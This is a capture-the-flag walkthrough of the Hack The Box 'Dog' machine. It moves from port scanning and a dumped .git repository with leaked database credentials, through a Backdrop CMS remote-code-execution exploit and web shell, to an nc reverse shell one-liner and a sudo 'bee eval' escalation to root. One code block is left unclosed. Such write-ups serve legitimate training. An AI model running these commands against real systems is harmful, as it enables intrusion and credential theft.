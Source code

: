 ```yaml
---
name: Dog
difficulty: easy
os: linux
platform: htb

img: https://labs.hackthebox.com/storage/avatars/426830ea2ae4f05f7892ad89195f8276.png
---
```


## Enumeration

### Port Scan

We start by scanning the target machine for open ports using Nmap. We will use the `-p-` option to scan all ports and the `--open` option to filter out closed ports:
```bash
nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.11.58 -o allPorts
```
```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

Now we will scan the open ports with service version detection and script scanning using `-sC` and `-sV` options

```bash
nmap -p 22,80 -sCV 10.10.11.58 -o targeted
```
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 972ad22c898ad3ed4dac00d21e8749a7 (RSA)
|   256 277c3ceb0f26e962590f0fb138c9ae2b (ECDSA)
|_  256 9388474c69af7216094cba771e3b3beb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-git: 
|   10.10.11.58:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: todo: customize url aliases.  reference:https://docs.backdro...
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-robots.txt: 22 disallowed entries (15 shown)
| /core/ /profiles/ /README.md /web.config /admin 
| /comment/reply /filter/tips /node/add /search /user/register 
|_/user/password /user/login /user/logout /?q=admin /?q=comment/reply
|_http-generator: Backdrop CMS 1 (https://backdropcms.org)
|_http-title: Home | Dog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

As we can see, there is a web service running on port 80. This is exposing .git directory, which is a common misconfiguration in web applications. We can use this to our advantage.

We use `git-dumper` to download the contents of the `.git` directory:

```bash
python git_dumper.py http://10.10.11.58/.git/ ./website
```
## User Exploitation

This way we can download the entire repository, including the source code and configuration files.

We find a file named `settings.php` that contains sensitive information such as database credentials and other configuration details.
```php
$database = 'mysql://root:BackDropJ2024DS2024@127.0.0.1/backdrop';
$config_directories['active'] = './files/config_83dddd18e1ec67fd8ff5bba2453c7fb3/active';
$config_directories['staging'] = './files/config_83dddd18e1ec67fd8ff5bba2453c7fb3/staging';
$settings['hash_salt'] = 'aWFvPQNGZSz1DQ701dD4lC5v1hQW34NefHvyZUzlThQ';
```

Connecting to the database using the credentials we found, we can dump the users table to find valid user accounts.

```bash
mysql -u root -pBackDropJ2024DS2024 -h

Searching in depth, we find a possible user mail:
```bash
cat files/config_83dddd18e1ec67fd8ff5bba2453c7fb3/active/update.settings.json
```
The user is `tiffany@dog.htb`

Web page login was successfull using `tiffany@dog.htb:BackDropJ2024DS2024`

We can look up for exploits for the current version of Backdrop CMS. We find `https://www.exploit-db.com/exploits/52021` which is a Remote Code Execution (RCE) vulnerability in Backdrop CMS 1.27.1. Exactly the version we are running.

We copy and run the python script
```bash
python pya.py http://10.10.11.58
```
```
Backdrop CMS 1.27.1 - Remote Command Execution Exploit
Evil module generating...
Evil module generated! shell.zip
Go to http://10.10.11.58/admin/modules/install and upload the shell.zip for Manual Installation.
Your shell address: http://10.10.11.58/modules/shell/shell.php
```

We need to transform .zip to .tar.gz to upload it in the web application. We can do this with the following command:
```bash
unzip shell.zip && tar -czvf shell.tar.gz shell
```

We upload the `shell.tar.gz` file to the web application using the following steps:
Functionality > Install Module > Manual Installation

Then we can execute commands using the web shell at `http://10.10.11.58//modules/shell/shell.php?cmd=whoami`
```bash
www-data
```

We can get a reverse shell using the following command:
```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.16.69 4444 > /tmp/f
```

Once we have a reverse shell, we can get a persistent shell by using the following commands on the reverse shell

```bash
script /dev/null -c /bin/bash
CONTROL-Z
stty raw -echo; fg
reset xterm
export TERM=xterm
```

We move to user su `johncusack` using the known password `BackDropJ2024DS2024`
```bash
ssh johncusack
```

We can find the user flag in the home directory:
```bash
cat /home/johncusack/user.txt
```
```
user flag value
```

## Root Exploitation

We can check if user `johncusack` has sudo privileges:
```bash
sudo -l
```
```
Matching Defaults entries for johncusack on dog:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User johncusack may run the following commands on dog:
    (ALL : ALL) /usr/local/bin/bee
```
We can see that user `johncusack` can run the command `/usr/local/bin/bee` as root.

We can check the usage of the `/usr/local/bin/bee` utility:
```bash
/usr/local/bin/bee --help
```

We find some interesting options

- eval: allows us to execute arbitrary php code
- --root: specifies the root directory to use

We can execute arbitrary code using these parameters. We can use the following command to get a reverse shell as root:
```bash
sudo /usr/local/bin/bee --root=/var/www/html eval 'system("id");'
```
```
uid=0(root) gid=0(root) groups=0(root)
```

We can read the root flag:
```bash
sudo /usr/local/bin/bee --root=/var/www/html eval 'system("cat /root/root.txt");'
```
```
root flag value
```

## Conclusion
This walkthrough demonstrates how to exploit a vulnerable Backdrop CMS installation to gain user and root access on the Dog machine. By leveraging misconfigurations and known vulnerabilities, we were able to escalate privileges and retrieve the flags.
This highlights the importance of secure coding practices and proper configuration management in web applications.

